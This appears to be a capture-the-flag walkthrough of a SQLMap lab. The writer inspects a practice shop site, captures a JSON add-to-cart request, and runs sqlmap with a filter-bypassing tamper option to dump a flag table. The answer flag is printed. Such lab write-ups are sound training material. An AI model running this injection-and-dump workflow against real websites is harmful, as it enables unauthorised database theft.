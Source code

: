 ```yaml
---
sticker: lucide//database-backup
---
```

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![](images/Pasted%20image%2020250204180837.png)

Once we go into the site, we can see the following:

![](images/Pasted%20image%2020250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

## Contact


![](images/Pasted%20image%2020250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

## Blog
---

![](images/Pasted%20image%2020250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

## Catalog
---

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
    $(".add-to-cart").click(function(event) {
        event.preventDefault();

        let xhr = new XMLHttpRequest(); 
        let url = "action.php"; 
    
        xhr.open("POST", url, true); 
        xhr.setRequestHeader("Content-Type", "application/json"); 

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) { 
                alert("Item added!!!")
            }
        };

        var data = JSON.stringify({ "id": 1 }); 
        xhr.send(data); 
    });
  </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`


![](images/Pasted%20image%2020250204183428.png)
